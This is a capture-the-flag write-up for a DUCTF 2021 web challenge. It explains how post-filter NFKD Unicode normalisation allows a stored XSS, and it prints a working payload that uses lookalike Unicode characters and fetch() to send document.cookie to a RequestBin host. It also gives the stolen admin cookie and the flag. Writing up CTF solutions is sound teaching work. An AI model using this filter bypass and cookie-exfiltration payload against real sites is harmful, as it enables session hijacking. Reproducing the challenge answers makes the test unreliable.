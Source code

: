 # Challenge
A bunch of university students want to start a company and hired some young university students. I wonder if they paid any attention to security.  
  
# Setup
Website: https://web-chainreaction-a4b5ae3b.chal-2021.duc.tf  
  
# Solution
At the bottom of the login page of the website, we see a link to the developer portal. When we visit `/dev`, we see that the website "is still under construction", and it instead directs us to either `/devchat` or `/admin`. Visiting `/admin` redirects us to `/login` with the flashed message `Not allowed.` at the top of the page. This indicates we need to have some admin "cookie" set in order to proceed.  
  
Visiting `/devchat` instead shows us messages between developers, which give us useful information:
<ol>
  <li> "For now I have set a static cookie, but Ill fix that up on Monday." -> confirms our theory about the admin cookie </li>
  <li> "bruh... you basically just added a vulnerability, why tf are you normalizing after checking the bad characters" -> upon searching for "normalising characters", we see that this probably refers to decomposing Unicode characters into constituent, or smaller parts/a part. </li>
  <li> "Only used it once for a uni project this semester, NFKD I think it was" -> NKFD is a Unicode normalisation scheme, so this solidifies the idea of a normalising user inputted characters. The fact that the developer is normalising after checking for some "bad" payload indicates that to exploit this website, we should "smuggle" these bad strings through Unicode characters which are only unpackaged after input validation, like a Trojan horse. </li>
  <li> "Also the about me section was all html escaped making it look ugly, need to try and find a fix for that as well. It looks very ugly." -> this was sent after a developer said the page was autoescaped because values were inputted raw (which would introduce an XSS vulnerability), however now that that feature seems to be raw. This indicates we need to construct an XSS attack which sends a user's cookie to some proxy, report the error to the admins, check the proxy and retrieve their cookie </li>
</ol>
To test our idea of the XSS, we can register an account, log into it and view our profile page. After entering `" hidden value="` into the "About me" field and updating our information, we see that the field disappears:
[!About me field is gone](disap.png)
However, if we try to enter `<script>`, we see that the website detects a "hacking attempt":
[!Hacking attempt](hackattempt.png)
Not only does this occur for the angle brackets but also simply the string "script". This is where our knowledge of the NFKD normalisation algorithm comes from: we can enter a string which has alternative "Unicode" versions of the angle brackets and one of the letters of "script" to bypass the XSS detection and then have the payload be decomposed with NFKD. Our final payload looks like this (I used RequestBin as the proxy):
```
"＞＜scᴿipt＞ fetch(`https://[my_bin].x.pipedream.net/c=${document.cookie}`)＜/scᴿipt＞
```
Then, after retrieving the cookie **sup3rs3cur34dm1nc00k13**, we can set it on our browser and visit the `/admin` page to read the flag.  
Flag: **DUCTF{\_un1c0de\_bypass_x55_ftw!}**
